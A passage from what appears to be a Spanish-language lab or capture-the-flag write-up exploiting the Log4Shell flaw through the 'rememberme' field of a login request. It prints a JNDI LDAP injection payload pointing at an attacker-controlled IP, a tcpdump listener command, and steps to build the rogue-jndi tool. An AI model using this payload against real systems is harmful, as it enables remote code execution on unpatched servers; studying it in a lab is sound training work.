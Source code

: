     En la solicitud POST, vemos 4 claves: `username`, `password`, `rememberme` y `strict`.

    Según el artículo, la vulnerabilidad está en el valor de `rememberme` emitido en la solicitud de inicio de sesión.

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Para probar la vulnerabilidad, podemos usar `tcpdump` para escuchar conexiones en el puerto 1389 en la interfaz `tun0`, que es nuestra conexión VPN. Ejecuta el siguiente comando:

```bash
sudo tcpdump -i tun0 port 1389
```

La carga útil que utilizaremos es la siguiente: `${jndi:ldap://10.10.16.51:1389/o=tomcat}`. Colócala en el valor de `rememberme`.

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

Primero, necesitamos clonar el repositorio de GitHub y construir la herramienta. Ejecuta los siguientes comandos:

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```
